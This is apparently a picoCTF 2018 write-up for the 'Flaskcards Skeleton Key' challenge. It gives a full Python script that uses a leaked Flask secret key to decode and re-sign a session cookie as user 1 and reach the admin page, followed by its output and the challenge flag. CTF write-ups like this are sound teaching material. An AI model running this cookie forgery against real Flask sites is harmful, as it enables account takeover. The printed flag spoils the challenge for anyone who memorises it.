 # Flaskcards Skeleton Key
Web Exploitation, 600 points

## Description:
> Nice! You found out they were sending the Secret_key: 06f4eefabf03b8f4e521fbdada13f65c. Now, can you find a way to log in as admin? 


## Solution:

We are presented with a Flask-based website which allows us to register and log in.

Upon logging in, we receive a cookie similar to the following:
```
<Cookie session=.eJwlj0FqQzEMRO_idRaSZclWLvORZYmGQAv_J6vSu8fQ5czwhpnfcuQZ11e5v8533MrxWOVeqkfMqWAdMlhgUOhIWNZH68Si3psg6GhO3FIXQXTnCIGVMWVJMEuoqm9ritqYYsp9oTek4QjY55RsdZiQuC3ZRdQ367ys3IpfZx6vn2d87z1ku3PHFUeVigqUgTLD0DQyALYw1rG59xXn_wni8vcB5xI_EA.Dst08g.oFWrLrk8A_EiZx4mX1BH9-qNCx8 for 2018shell3.picoctf.com/>
```

As explained [in this writeup](https://terryvogelsang.tech/MITRECTF2018-my-flask-app/), given the secret key (which was provided in the description), we can decode and/or forge the cookie. [This](https://www.kirsle.net/wizards/flask-session.cgi#source) online tool has some more information as well.

Heavily based on the code provided in both links, the following script will register and sign in to our website, decode the session cookie, replace the user ID to an Admin ID, and login as admin to receive the flag.

The script:
```python
from itsdangerous import URLSafeTimedSerializer, base64_decode
from flask.sessions import session_json_serializer
from hashlib import sha1
from pwn import *
import requests
import json
import zlib
import re

URL = "http://2018shell3.picoctf.com:5953"
SECRET_KEY = '06f4eefabf03b8f4e521fbdada13f65c'
COOKIE_NAME = "session"

class Flaskcards(object):

    def __init__(self, url):
        self.session = requests.Session()
        self.url = url
        self.username = None
        self.password = None

    def Register(self, username, password):
        log.info("Registering with username '{}', password '{}'".format(username, password))
        register_url = "{}/register".format(self.url)
        r = self.session.get(register_url)
        csrf = self._get_csrf(r.text)
        r = self.session.post(register_url, data = {"csrf_token": csrf, 'username': username, 'password': password, 'password2': password})
        assert("Successfully registered" in r.text)
        self.username = username
        self.password = password
        return r
        
        
    def Login(self):
        if self.username is None or self.password is None:
            raise Exception("Must register first!")
        username = self.username
        password = self.password
        log.info("Logging in with username '{}', password '{}'".format(username, password))
        login_url = "{}/login".format(self.url)
        r = self.session.get(login_url)
        csrf = self._get_csrf(r.text)
        r = self.session.post(login_url, data = {"csrf_token": csrf, 'username': username, 'password': password, 'remember_me': "n"})
        assert("Welcome {}!".format(username) in r.text)
        return r
    
    def GetCookie(self, name):
        return self.session.cookies[name]
        
    @staticmethod
    def _get_csrf(text):
        csrf = re.search('input id="csrf_token" name="csrf_token" type="hidden" value="([^"]+)"', text).group(1)
        return csrf
        
    
class FlaskForger(object):
    def __init__(self, secret_key):
        self.signer = URLSafeTimedSerializer(secret_key, salt='cookie-session', serializer=session_json_serializer,
                                        signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha1})
    def forgeSession(self, payload):
        gen_payload = self.signer.dumps(payload)
        log.info("Generated signed cookie : {}".format(gen_payload))
        return gen_payload
        
    @classmethod
    def decodeCookiePayload(cls, session):
        start = 1 if session[0] == '.' else 0

        session_payload = session[start:].split('.')[0]
        log.info("Session data: {}".format(session_payload))
        decoded_session_payload = base64_decode(session_payload)
        decompressed_session_payload = zlib.decompress(decoded_session_payload)
        return decompressed_session_payload


flsk = Flaskcards(URL)
flsk.Register(randoms(10), randoms(10))
flsk.Login()
old_cookie_val = flsk.GetCookie(COOKIE_NAME)
log.info("Original cookie: {}".format(old_cookie_val))

forger = FlaskForger(SECRET_KEY)
decoded = FlaskForger.decodeCookiePayload(old_cookie_val)
log.info("Original cookie data: {}".format(decoded))

j = json.loads(decoded)
j["user_id"] = "1"
log.info("New cookie data: {}".format(json.dumps(j)))

new_cookie_val = forger.forgeSession(j)

cookie = {COOKIE_NAME: new_cookie_val}

r = requests.get('{}/admin'.format(URL), cookies=cookie)

for line in r.text.split("\n"):
    if "picoCTF" in line:
        print (line)
```

The output:
```
root@kali:/media/sf_CTFs/pico/Flaskcards_Skeleton_Key/v2# python exploit.py
[*] Registering with username 'ubcazabyng', password 'hhdjfuysxf'
[*] Logging in with username 'ubcazabyng', password 'hhdjfuysxf'
[*] Original cookie: .eJwlj0tqQzEMRfficQZyZMlSNvPQz7QUWngvGZXuPYZOD5z7-W3HOuv6aI_n-apbOz6zPdo9qtwVbMIqYhAslQVpU8ZEYo05uIPKCKSxNBFqBlUx5Crn5CLiUtXYyFlNnE1pZo_RUaJDn-68xl2MkcOSdxDO7QaltVuL61zH8-ervvce7F40HQZKdyDcZWulhdEoSlEx2jBre6-rzv8Tg9rfGwH_P98.Dst6EQ.DsX3j2UFIVVeaPHjTY0zfcrLQkw
[*] Session data: eJwlj0tqQzEMRfficQZyZMlSNvPQz7QUWngvGZXuPYZOD5z7-W3HOuv6aI_n-apbOz6zPdo9qtwVbMIqYhAslQVpU8ZEYo05uIPKCKSxNBFqBlUx5Crn5CLiUtXYyFlNnE1pZo_RUaJDn-68xl2MkcOSdxDO7QaltVuL61zH8-ervvce7F40HQZKdyDcZWulhdEoSlEx2jBre6-rzv8Tg9rfGwH_P98
[*] Original cookie data: {"_fresh":true,"_id":"2ceebb90a70fe56083e98f0da78473569c74610984c354f9d30e7c5ee60dfeb6d6e556e999ce60b69a8b6a957d1c4138c1017bb6f428a636cad635437eb6c5da","csrf_token":"31be57b04381b053e7cffdaca54e5d898a553ede","user_id":"45"}
[*] New cookie data: {"csrf_token": "31be57b04381b053e7cffdaca54e5d898a553ede", "_fresh": true, "user_id": "1", "_id": "2ceebb90a70fe56083e98f0da78473569c74610984c354f9d30e7c5ee60dfeb6d6e556e999ce60b69a8b6a957d1c4138c1017bb6f428a636cad635437eb6c5da"}
[*] Generated signed cookie : .eJwdj0tqQzEMRbdSPM5Aji1ZCmQJHXQFD_1MS6GF95JRyN5jMj1w7udRtrnn8V0ut_2ep7L9RLmUs2eaCeiAmUjALYUnhA7uoyGJj04VhLs37FOiQQ7HTIKYaRSUiJQi4gsZibKRCo6o3mtjr1CHGc1-ZqVGrkErqI3lOoaWU_Fjn9vt_zf_1p5WLXEY9MbVANsqmzPUFXtisLDigpHLux-5v088yoct9fPrei3P5wtOO0KG.Dst6Ew.SsowHM9RmbngCyg9xAjZo6lW8BQ
        <p> Your flag is: picoCTF{1_id_to_rule_them_all_1879a381} </p>
```

The flag: picoCTF{1_id_to_rule_them_all_1879a381}